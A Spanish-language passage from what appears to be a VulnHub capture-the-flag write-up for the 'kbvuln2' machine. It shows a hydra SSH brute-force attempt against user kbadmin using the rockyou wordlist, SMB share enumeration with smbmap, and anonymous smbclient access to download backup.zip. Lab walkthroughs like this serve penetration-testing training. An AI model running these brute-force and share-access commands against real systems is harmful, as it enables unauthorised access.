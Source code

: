 ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/7.png){: .align-center}

Buscar usuarios en el sistema, solo encontrará kbadmin

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/8.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/9.png){: .align-center}

Intentar un ataque de fuerza bruta para conseguir la contraseña, no dará resultado

```bash
sudo hydra -l kbadmin -P /usr/share/wordlists/rockyou.txt 192.168.122.6 ssh
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/10.png){: .align-center}

Ver directorios compartidos por smb

```bash
smbmap -H  192.168.122.6
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/11.png){: .align-center}

Entrar al directorio de Anonymous y mostrar el contenido

```bash
smbclient -N //192.168.122.6/Anonymous
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/12.png){: .align-center}

Descargar el archivo backup.zip

```bash
get backup.zip
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/13.png){: .align-center}

Moverlo a un nuevo directorio y descomprimirlo

```bash
mkdir kbvuln2
mv backup.zip kbvuln2/
ls
unzip backup.zip
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/14.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/15.png){: .align-center}

Creará un directorio llamado wordpress y un archivo llamado `remember_me.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/kbvuln2/16.png){: .align-center}
